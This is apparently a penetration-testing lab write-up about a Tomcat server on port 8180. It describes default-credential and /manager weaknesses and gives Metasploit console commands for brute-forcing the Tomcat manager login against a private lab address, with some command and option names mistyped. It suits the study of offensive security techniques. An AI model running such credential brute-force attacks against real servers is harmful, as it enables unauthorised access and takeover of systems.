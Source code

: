 ## Service running on port 8180 http -> Apache tomcat/coyote JSP engine 1.1
![](../images/service_on_port_8180.png)
Here we have an another web-server running on the target port 8180 which is apache tomcat server, a pure java based server used to execute the java-application on the server. Apache Tomcat is an open-source application server designed to run Java applications, primarily Java Servlets and JSPs. Coyote is the HTTP connector component within Tomcat that allows it to serve HTTP requests and JSP pages. The Coyote JSP engine processes JSP files on the server, dynamically generating HTML content to be sent to users' browsers.

Tomcat with Coyote is commonly used for:
1. Web-Application Hosting.
2. Testing Java-based applicaion.
### Identifying Vulnerabilites or Weaknes
1. **Default or Weak Credentials** As the target tomcat server is configured with default crudential, then we can perform the **bruteforce attack** to find the crudential for the running server.
2. **Manager Application Access**  If accessible, the /manager application allows deploying or undeploying WAR files, potentially giving attackers control over the server if we get the crudential.

### Exploitation 
##### Bruteforce attack using mgr_login module
```
msfconsole -q
msf > search mgr_login
msf > use search auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(scanner/http/tomcat_mgr_login) > show options
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/http/tomcat_mgr_login) > set Anonymous_login true
msf auxiliary(scanner/http/tomcat_mgr_login) > set Black_passwords true
msf auxiliary(scanner/http/tomcat_mgr_login) > run
```